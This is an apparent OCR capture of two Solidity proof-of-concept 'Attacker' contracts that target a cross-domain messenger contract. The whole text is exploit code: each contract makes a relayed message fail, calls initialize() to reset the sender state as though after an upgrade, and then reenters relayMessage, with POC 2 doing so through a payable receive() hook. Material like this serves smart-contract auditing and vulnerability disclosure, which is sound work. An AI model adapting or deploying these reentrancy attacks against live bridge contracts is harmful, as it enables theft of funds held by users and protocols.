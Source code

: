 POC 1 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./VulnerableCrossDomainMessenger.sol";
import "./ExploitableContract.sol";

contract Attacker {
    CrossDomainMessenger public messenger;
    ExploitableContract public exploitable;

    constructor(CrossDomainMessenger _messenger, ExploitableContract _exploitable) {
        messenger = _messenger;
        exploitable = _exploitable;
    }

    function attack(bytes memory data, bytes32 versionedHash) external {
        // Step 1: Cause an initial failure to mark the message as failed
        messenger.relayMessage(address(exploitable), data, 100000, versionedHash);

        // Step 2: Simulate an upgrade by resetting xDomainMsgSender
        messenger.initialize();

        // Step 3: Reenter the relayMessage call during retry
        messenger.relayMessage(address(exploitable), data, 100000, versionedHash);
    }
}

POC 2
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./VulnerableCrossDomainMessenger.sol";
import "./ExploitableContract.sol";

contract Attacker {
    VulnerableCrossDomainMessenger public messenger;
    ExploitableContract public exploitable;

    constructor(VulnerableCrossDomainMessenger _messenger, ExploitableContract _exploitable) {
        messenger = _messenger;
        exploitable = _exploitable;
    }

    function attack(bytes memory data, bytes32 versionedHash) external payable {
        // Step 1: Trigger a failed message to mark it as failed
        try messenger.relayMessage(address(exploitable), data, 100000, versionedHash) {
            revert("Initial message should fail");
        } catch {}

        // Step 2: Simulate an upgrade resetting xDomainMsgSender
        messenger.initialize();

        // Step 3: Reenter `relayMessage` during retry
        messenger.relayMessage{value: msg.value}(address(exploitable), data, 100000, versionedHash);
    }

    receive() external payable {
        // During the reentrant call, exploit the inconsistent state
        messenger.relayMessage{value: msg.value}(address(exploitable), "", 100000, keccak256("reentrant_call"));
    }
}

